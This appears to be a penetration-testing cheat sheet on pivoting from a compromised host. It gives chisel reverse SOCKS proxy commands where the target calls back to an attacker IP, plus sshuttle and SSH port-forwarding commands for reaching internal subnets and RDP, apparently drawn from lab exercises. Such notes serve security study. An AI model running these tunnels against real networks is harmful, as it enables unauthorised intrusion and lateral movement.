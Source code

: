 ### Install

```bash
# Clone Repository
git clone 'https://github.com/jpillora/chisel.git'

# Build Binary
go build

# Binary is now built and ready to be transfered over to target system.
```

### Reverse SOCKS Proxy

```bash
# Attacking Machine
./chisel server -p <Port> --reverse &
./chisel server -p 1337 --reverse &

# On Target Machine
./chisel client <Attacking-IP>:<Port> R:socks &
./chisel client 10.50.46.8:1337 R:socks &

# Then use Proxychains to scan internal networks from the compromised host.
```

## Shuttle

```bash
# Authenticate with password
sshuttle -r <User>@<Target-IP> <Target-Subnet> -x <Target-IP>
sshuttle -r user@172.16.0.5 172.16.0.0/24 -x 172.16.0.5

# Authenticate with key.
sshuttle -r <User>@<IP> --ssh-cmd "<Command>" <Target Subnet> -x <Exclude IP>
sshuttle -r root@10.200.48.200 --ssh-cmd "ssh -i id_rsa" 10.200.48.0/24 -x 10.200.48.200
```

## SSH

```bash
# Forward RDP from internal host to Attacking Machine on port 1337.
ssh -L <LocalHost>:<Port>:<IP-To-Forward-From>:<Port> <User>@<IP>
ssh -L 127.0.0.1:1337:10.200.48.150:3389 root@10.200.48.200 -i id_rsa

# Forward remote port 80 to local port 80.
ssh atena@10.10.72.69 -L 80:127.0.0.1:80
ssh <User>@<IP> -L <Local-Port>127.0.0.1<Remote-Port>

# Dynamic SSH Port Forwarding
ssh -i <id_rsa> <User>@<IP> -D <Proxychains-Port>
ssh -i id_rsa errorcauser@10.10.254.201 -D 1080
```
